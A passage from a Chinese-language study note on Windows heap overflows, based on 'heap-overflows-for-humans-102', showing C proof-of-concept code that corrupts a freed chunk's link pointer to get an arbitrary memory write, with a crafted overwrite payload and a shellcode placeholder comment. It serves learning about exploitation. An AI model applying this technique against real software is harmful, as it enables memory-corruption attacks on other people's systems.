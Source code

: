 ```
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk C\n");

        // set software bp
        //    __asm__("int $0x3");

        // A second chunk of size N is allocated: our fake pointer is returned
        c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

        // A copy operation from a controlled input to this buffer occurs: these
        // bytes are written to our chosen location
        // insert shellcode here
        strcpy(c,"AAAAAAAAAAAA\n");
        printf(str);
        // set software bp
        //_asm int 0x3;

        exit(0);
 }

```

也许一遍就能跑通，但是一般来说还是像下面一样

![enter image description here](http://drops.javaweb.org/uploads/images/bb712e055c9dce83da2aa1f91194bd20f3b93755.jpg)

老规矩，自己改代码（图中12ff64）0x0012ff64

```
memcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x64\xff\x12\x00",28);

```

注意里面有\x00，所以我换用memcpy了，成功后如下图

![enter image description here](http://drops.javaweb.org/uploads/images/4a681dc2745cd7abf963589961e2a14ea38157a5.jpg)

那么，这段代码展示的实际上是内存任意写（没有call anycode的利用），只是把任意内容写到了str里面，即free(b)，再用str地址覆盖b的flink，然后取回b，然后分配c，c被分配到了str地址，然后向c里面写AAAAAAA，然后就写进str里面了。

0x0A 结语
-------

* * *

个人观点：尽管看到这里读者仍然只是似懂非懂地{大致了解堆溢出的原理和过程}，但是起码有了一个基本的概念，对以后深入研究其机理 奠定了兴趣基础，并且对于{只是好奇的爱好者}来说，涉猎这些也就够了。

建议有兴趣的朋友们去看看heap-overflows-for-humans-102 原文，里面有很多基础概念的讲解，本笔记仅为学习时的记录，并非严肃翻译原文。

0x0B reference
--------------

* * *

[http://net-ninja.net/article/2011/Sep/03/heap-overflows-for-humans-102/](http://net-ninja.net/article/2011/Sep/03/heap-overflows-for-humans-102/)

注：本文代码基于此文章修改，改动较大。

《C和C++安全编码》